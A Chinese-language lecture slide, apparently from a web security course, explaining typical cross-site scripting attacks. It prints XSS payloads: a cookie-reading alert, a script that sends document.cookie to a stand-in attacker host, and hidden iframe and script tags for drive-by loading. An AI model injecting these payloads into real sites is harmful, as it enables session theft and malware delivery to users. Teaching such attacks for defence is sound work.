

# 典型跨站脚本攻击
查看用户终端会话Cookie
<script>alert(document.cookie)</script>
会话ID、甚至登录口令等敏感信息
窃取Cookie
攻击者控制网站：steal_cookie_example.com
<script>document.location=‘http://steal_
cookie_example.com/getcookie.php?cookie=’+document.cookie;</script>
网页挂马
<iframe src="http://target_link" height=0 width=0></iframe>
<script src = "http://target_link"></script>
2022年10月24日
23